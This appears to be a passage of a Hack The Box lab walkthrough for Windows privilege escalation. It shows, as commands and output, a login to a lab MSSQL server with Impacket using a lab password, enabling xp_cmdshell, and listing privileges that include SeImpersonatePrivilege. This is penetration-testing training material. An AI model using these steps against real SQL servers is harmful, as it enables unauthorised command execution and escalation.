 ### Detailed Step-by-Step Solution

#### 1. Initial Connection with MSSQL
```bash
┌─[us-academy-1]─[10.10.14.143]─[htb-ac330204@pwnbox-base]─[~]
└──╼ [★]$ mssqlclient.py sql_dev@10.129.43.43 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password: Str0ng_P@ssw0rd!
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162) 
[!] Press help for extra shell commands
SQL> 
```

#### 2. Enable xp_cmdshell for Command Execution
```cmd
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

#### 3. Enumerate Privileges - Key Step!
```cmd
SQL> xp_cmdshell whoami /priv

output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               

PRIVILEGES INFORMATION                                                             
----------------------                                                             
NULL                                                                               

Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

NULL   
```
